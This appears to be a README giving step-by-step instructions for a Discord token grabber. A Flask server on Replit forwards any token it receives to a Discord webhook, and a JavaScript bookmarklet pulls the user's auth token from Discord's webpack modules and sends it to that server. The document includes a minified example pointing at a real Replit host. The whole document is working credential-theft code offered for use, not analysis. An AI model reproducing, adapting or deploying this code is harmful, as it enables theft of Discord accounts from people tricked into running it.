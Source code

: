 went downgrade a lil bit but the code works now as of 2/16/2024

instructions:

1. sign up for replit.com and create a new python repl
2. paste this code:
```python
from dhooks import Webhook
from flask import Flask, redirect
e = "PASTE_WEBHOOK_HERE"
app = Flask(__name__)
hook = Webhook(e)
@app.route('/<string:token>')
def index(token):
  hook.send(token)
  return redirect("https://discord.com/app")

if __name__ == "__main__":
  app.run(host='0.0.0.0', port=81)
```
3. replace PASTE_WEBHOOK_HERE with your actual discord webhook.
4. click run and then copy the url
5. replace PASTE_URL_HERE with the url you just copied
```js
const url = 'PASTE_URL_HERE';
var f = (webpackChunkdiscord_app.push([[''], {}, e=> {
  m = [];
  for (let c in e.c) m.push(e.c[c]);
}]), m).find(m => m?.exports?.default?.getToken !== undefined).exports.default.getToken();
window.location.replace(url + '/' + f);
```
6. copy the whole code (the short one) and then go to https://minify-js.com/ and minify the code
7. then put ur code like this: javascript:(your minified code)
8. will look something like this: ```javascript:const url="https://b707bed2-0d5d-4175-a39f-44929c4f2e6c-00-boj7lelqbogw.kirk.replit.dev/";var f=(webpackChunkdiscord_app.push([[""],{},e=>{m=[];for(let o in e.c)m.push(e.c[o])}]),m).find((e=>void 0!==e?.exports?.default?.getToken)).exports.default.getToken();window.location.replace(url+"/"+f);```
9. paste and enter that code in your url tab on discord
10. if need help make a issue

